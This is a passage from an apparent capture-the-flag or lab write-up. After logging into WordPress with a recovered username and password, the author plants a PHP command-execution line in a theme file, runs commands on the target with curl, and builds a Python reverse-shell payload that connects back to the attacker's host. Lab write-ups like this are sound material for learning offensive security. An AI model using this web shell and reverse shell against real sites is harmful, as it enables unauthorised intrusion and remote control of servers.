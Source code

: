 |username|password|
|--------|--------|
|eddiethehead|eddiethehead123|


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_12.png)


It works like a charm! Now it's time to execute commands directly on the Linux host. To do that, I just have to edit or upload a PHP page. Nowadays, it's possible to edit the current CMS theme through the web view.

> Appearences > Themes > Editor

On the right panel, we can see the "inc" folder, inside it, there are some PHP files such as `customizer.php`. I will inject arbitrary PHP code in this page:


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_13.png)


This little PHP line will runs the data sent through the "x" GET parameter. Here is an example:

```bash
host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=id"                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Perfect, it's time to execute a reverse shell. The standard method (using `netcat`) is no longer available since the "-e" argument has been removed. The `/dev/tcp/IP/PORT` trick is not always possible too.

But there are a lot of possibilities to runs a reverse shell, it works with PHP or Python for example. I will not modify the PHP pages any further, in order to avoid damaging the integrity of the site.

```bash
host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=which%20nc"
-> No netcat

host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=which%20python"
/usr/bin/python
```

Python is present on the remote target, nice. Let's go get the payload on pentestmonkey:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just have to replace the IP and port with mine. Here is the final payload:

```
http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.122.1",3615));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
